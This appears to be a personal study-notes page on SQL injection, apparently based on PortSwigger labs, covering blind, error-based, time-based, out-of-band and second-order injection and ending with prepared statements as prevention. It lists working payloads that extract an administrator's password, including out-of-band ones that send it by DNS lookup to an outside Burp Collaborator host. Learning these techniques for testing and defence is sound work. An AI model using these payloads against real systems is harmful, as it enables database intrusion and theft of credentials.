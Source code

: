 # SQL Injection

- SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.
- Find endpoints for an application where it is likely to interact with DB server such as login, register, forgot password, add record, etc.


## Blind SQL injection

- It occurs when HTTP response of vulnerable request do not contain details of any database errors.
- Attacks of UNION are ineffective as they rely on result of query passed.

Types

![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/4b7cde45-8ee0-4712-b052-607c092252dc)


1. Conditional responses (TRUE / FALSE):
    - You can retrieve information by triggering different responses conditionally, depending on an injected condition.
        ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/6ca4ec03-3f3a-4f9c-a79a-fc92b4e46167)
         
         `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` -->
         This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is `a`.
  
  - List of payloads
    - To check vulnerable or not
        > TrackingId=xyz' AND '1'='1

    - To check if table name exists
        > TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

    - To check particular username exist in table
        > TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a

    - To check length of password (Increase value of `1` with each iteration)
        > TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

    - To check password character wise (Increase value of `1` first one with each iteration)
        > TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

2. Error-based SQL Injection
  - Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts
  - When injecting different boolean conditions makes no difference to the application's responses.
  - Modify the query so that it causes a database error only if the condition is true.
  - Purpose cause error, so if condition is false it will return error for e.g. Divide by zero
  - Payload
      > xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a

    ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/72b6a743-553b-4ff2-bbe8-52f233a2fcc1)

    - Link: https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based#

4. Time-based SQL Injection
    - It is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false.

   - Payload
       > '; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--

    - The application takes 10 seconds to respond
       > TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

    - The application responds immediately with no time delay
       > TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

5. Out-of-band (OAST) SQLi
    - The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.
    - Exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control.
    - A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service)
  
    - Payload combine with XXE --> Will cause DNS lookuo to Burp Collaborator
       > TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

    - Payload --> input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:
      > '; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
      ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/db8f381c-eff8-4fe6-976a-09009f2c430b)

    - Payload for finding password of administrator --> it will be appended as subdomain of burp collaborator
      > TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

## SQL injection in different contexts

- Test other formats for SQLi like JSON or XML.
- Bypass these filters by encoding or escaping characters in the prohibited keywords. For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT:
  > &#x53;ELECT * FROM information_schema.tables

## Second-order SQL injection

- First-order SQL injection occurs when application processes user input from HTTP request and injects the input into SQL query in an unsafe way.
- Second-order SQL injection occurs when application does not process input from HTTP request immediately rather it stores if for future use. Later, when retreving the stored data it processes and inject input into SQL query in an unsafe way.

## Prevention

1. Parameterized queries / prepared statements.
       - Normally, when SQL program arrives at the SQL server, the server will parse, compile and optimize it. Finally, the server will execute the program and return results of execution
   ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/bb7f26c4-4cf3-4b53-8da1-d11903948b27)

    - Prepared Statement work by making sure that user supplied data does not alter you SQL query's logic. These SQL statements are sent to and compiled by the SQL server before any user supplied parameters into the query. User input is added to statement right before execution. Anything that wasn't in the original statement will be treated as string data, not the executable SQL code.
      ![image](https://github.com/th3-r3sistanc3/Notes/assets/71440632/d06ebb70-3ebf-4965-8ae8-b239007de2b7)
